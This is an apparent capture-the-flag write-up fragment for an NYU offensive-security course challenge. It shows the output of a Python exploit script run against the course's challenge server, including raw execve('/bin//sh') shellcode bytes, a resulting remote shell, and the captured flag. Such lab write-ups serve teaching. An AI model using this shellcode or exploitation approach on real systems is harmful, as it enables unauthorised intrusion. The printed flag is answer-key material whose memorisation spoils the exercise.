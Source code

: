 Exploitation:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1338: Done
[*] Switching to interactive mode

Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAAЖ\x06s\xfc
$ whoami
pwn
$ pwd
/home/pwn
$ ls
flag.txt
school
$ cat flag.txt
flag{first_day_of_pwn_school}
```

